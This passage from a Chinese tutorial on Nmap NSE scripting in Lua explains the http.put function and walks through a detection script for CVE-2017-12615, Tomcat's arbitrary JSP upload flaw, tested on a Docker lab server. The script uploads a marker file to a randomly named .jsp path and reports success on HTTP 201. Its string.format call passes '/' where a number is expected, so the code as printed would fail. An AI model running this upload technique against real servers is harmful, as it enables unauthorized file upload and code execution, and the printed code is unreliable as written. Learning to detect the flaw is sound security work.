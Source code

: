 执行结果：

![2019-04-24-10-16-22](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e88b5f5bc8a7b88b60d7be2d93ffbc67.png)

- 返回值：

该函数返回一个响应表，具体可参考前面的0X02响应表

## 0X06 编写一个检测CVE-2017-12615的脚本

为了检验读者对之前的内容是否有所收获，所以产生一个需求，编写一个针对CVE-2017-12615的漏洞检测脚本。首先我们需要了解这个漏洞：

> 编写CVE-2017-12615的漏洞检测脚本

攻击者可以利用这个漏洞，向目标服务器上传恶意 JSP 文件，通过上传的 JSP 文件 ，可在用户服务器上执行任意代码，从而导致数据泄露或获取服务器权限，存在高安全风险。

漏洞的利用方式是通过PUT请求，这让我们不得不学习一个新的函数——put函数，它的参数类似于post函数。

- host : host表
- port : port 表
- path : 请求路径，默认是根路径“/”
- options : 用于设置请求相关的Cookie、超时时间、header
- putdata : 要上传的文件的内容

这里我使用Docker已经搭建好了一个Tomcat环境：

![2019-04-24-10-17-24](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/4d893f65eb7a570b0f8c089d5752ae92.png)


编写的脚本如下：

```lua
local stdnse = require "stdnse"
local http = require "http"
prerule=function()
end
hostrule=function(host)
	return false
end

portrule=function(host,port)
	local ports = {80,8080,8090,8899}
	for i in pairs(ports)do
		if(port.number == ports[i])then
			return true
		end
	end
end


action = function(host,port)
	local shell_name = string.format("/%d.jsp","/",math.random(9999))
	local status = stdnse.output_table()
	local put_rsp = http.put(host,port,shell_name.."/",nil,"CVE-2017-12615")
	if(put_rsp.status == 201)then
		status.shell_name = shell_name
		return status
	end
	return false
end
postrule=function()
end
```
